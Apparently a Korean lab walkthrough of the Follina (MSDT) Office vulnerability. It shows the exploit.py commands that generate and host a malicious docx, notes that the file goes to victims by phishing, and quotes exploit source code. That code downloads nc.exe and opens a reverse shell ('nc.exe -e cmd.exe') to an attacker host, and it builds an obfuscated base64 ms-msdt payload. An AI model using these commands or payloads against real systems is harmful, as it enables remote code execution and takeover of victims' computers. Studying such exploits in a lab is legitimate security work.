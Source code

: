 현재 사용하고 있는 환경에서는 Defender에서 해당 Exploit docx 파일을 악성 파일로 간주하고 있기에 위와 같이 실시간 보호를 해제하여 테스트를 진행합니다.

```python3 exploit.py generate http://192.168.124.134:{port}``` 명령어를 사용하여 Kali에서 Exploit을 위한 docx 파일을 준비한다.

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/28df59ee-31ca-4122-b1b8-3960d87d723a" width = 650>
</p>

```sudo python3 exploit.py host {port}``` 명령어를 통해 Kali에서 피해자의 접속 로그와 Connecting을 준비한다. 

생성되는 파일은 `./out/document.docx`에 존재하고 이 파일을 피싱이나 다른 매체를 통해 피해자에게 전달하게 된다. 피해자가 이 파일을 아무런 의심없이 실행하게 된다면 아래와 같이 **MSDT**가 실행되며 미리 정의해놓은 `calc.exe`가 실행되게 된다.

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/f4292dda-867f-43f5-9c00-bf213b557b9d">
</p>

### Remote shell 및 Ransomware

* [Follina RCE](https://github.com/JohnHammond/msdt-follina/tree/main?tab=readme-ov-file+)

해당 git은 Remote Shell 연결을 위해 기존 `calc.exe` 명령어에서 그치지 않고 `nc.exe` 파일을 다운로드 받아 직접 Connecting을 시도하게 하는 RCE이다.

```python
 with open(document_rels_path, "w") as filp:
        filp.write(external_referral)

    # Rebuild the original office file
    shutil.make_archive(args.output, "zip", doc_path)
    os.rename(args.output + ".zip", args.output)

    print(f"[+] created maldoc {args.output}")

    command = args.command
    if args.reverse:
        command = f"""Invoke-WebRequest https://github.com/JohnHammond/msdt-follina/blob/main/nc64.exe?raw=true -OutFile C:\\Windows\\Tasks\\nc.exe; C:\\Windows\\Tasks\\nc.exe -e cmd.exe {serve_host} {args.reverse}"""

    # Base64 encode our command so whitespace is respected
    base64_payload = base64.b64encode(command.encode("utf-8")).decode("utf-8")

    # Slap together a unique MS-MSDT payload that is over 4096 bytes at minimum
    html_payload = f"""<script>location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \\"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'{base64_payload}'+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe\\""; //"""
```
